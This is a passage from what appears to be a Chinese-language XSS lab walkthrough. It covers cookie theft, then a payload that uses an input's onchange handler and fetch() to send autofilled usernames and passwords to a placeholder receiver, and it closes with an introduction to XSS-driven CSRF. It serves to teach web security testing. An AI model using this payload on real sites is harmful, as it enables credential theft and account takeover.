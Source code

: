 接着我们看一下接收端

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01ee62a6ecf9464de7.png)

看到我们成功窃取到cookie，就可以替换现有的cookie伪装成受害者登录了

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0185d7ce49cd3bd84d.png)

### <a class="reference-link" name="%E5%88%A9%E7%94%A8XSS%E7%AA%83%E5%8F%96%E5%AF%86%E7%A0%81"></a>利用XSS窃取密码

很多浏览器都会有自动填写功能，我们可以利用这个特点窃取用户密码，下面我们直接通过一道靶场来深入理解

### <a class="reference-link" name="%E9%85%8D%E5%A5%97%E9%9D%B6%E5%9C%BA%EF%BC%9A%E5%88%A9%E7%94%A8XSS%E7%AA%83%E5%8F%96%E5%AF%86%E7%A0%81"></a>配套靶场：利用XSS窃取密码

因为要监控输入框的变化，所以我们引入了onchange事件，于是我们这样构造paylaod

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t017c558acf42e7f78b.png)

```
&lt;input name=username id=username&gt;
&lt;input type=password name=password
    onchange="
        if(this.value.length)
            fetch('[临时的接收地址]',`{`
                method:'POST',
                mode:'no-cors',
                body:username.value+':'+this.value
                `}`
            );
    "
&gt;
```

然后我们查看一下接收端

[![](https://p4.ssl.qhimg.com/t016a7a1ebbe5e64ae2.png)](https://p4.ssl.qhimg.com/t016a7a1ebbe5e64ae2.png)

看到我们成功地获取到了用户名和密码，就可以直接登录受害者用户，成功率会比窃取cookie高一些

[![](https://p0.ssl.qhimg.com/t017e4ca24ac6332e51.png)](https://p0.ssl.qhimg.com/t017e4ca24ac6332e51.png)

### <a class="reference-link" name="%E5%88%A9%E7%94%A8XSS%E5%8F%91%E5%8A%A8CSRF"></a>利用XSS发动CSRF

burp将CSRF专题放在本专题后面，所以到后面再详细讲解CSRF，现在我们只讲解这种XSS利用手段，前面有介绍过，XSS可以用来执行受害者能执行的任何操作，包括发送好友请求、转移用户资产、修改身份信息等。这种借他人之手执行的操作就是CSRF，虽然有一些应用程序会通过引入防CSRF攻击令牌的方式进行缓解，但是如果可以利用XSS窃取到该令牌，则这种缓解措施也会随即失效，下面我们同样是通过一道靶场来深入理解。
